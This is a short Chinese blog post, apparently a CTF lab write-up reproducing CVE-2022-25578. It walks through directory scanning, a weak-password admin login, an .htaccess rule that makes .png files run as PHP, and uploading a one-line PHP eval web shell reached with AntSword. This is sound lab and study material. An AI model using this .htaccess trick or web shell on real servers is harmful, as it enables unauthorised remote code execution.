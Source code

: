 ```yaml
---
title: CVE-2022-25578
subtitle:
date: 2025-03-14T12:16:19+08:00
slug: 0780980
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/57334f4d94c8334a885d95809716428d.png)

访问但是没有文件上传点

![](images/b8e41c4da3306e1ee4cc461c4318c605.png)

扫描目录查看是否有上传处

``` Shell
dirsearch -u "http://eci-2ze15m1vb2h75tqfcloq.cloudeci1.ichunqiu.com/"
```



![](images/c44cc10356471db99223363d3d7e50b0.png)

访问/admin，看到网页

![](images/2c01c959e0a1a35350a02e607aac0c37.png)

弱口令爆破 admin/tao，登陆成功，根据题目提示找到.htaccess文件，进行修改，添加代码使其能够对.png文件用php进行解析

```
AddType application/x-httpd-php .png
```



![](images/d67e01147922d013307c74eda6e5c973.png)

在文章上传找到文件上传处

```
<?php @eval($_POST['t1ng']);?>
```



![](images/dbf28764040eeb350e7e379efe51c71a.png)

找到图片路径，蚁剑连接



![](images/670928c8efc9ad2752807bc18b5370ad.png)

找到flag

![](images/b8e45219a5712ed5f243b4170ae1bd30.png)

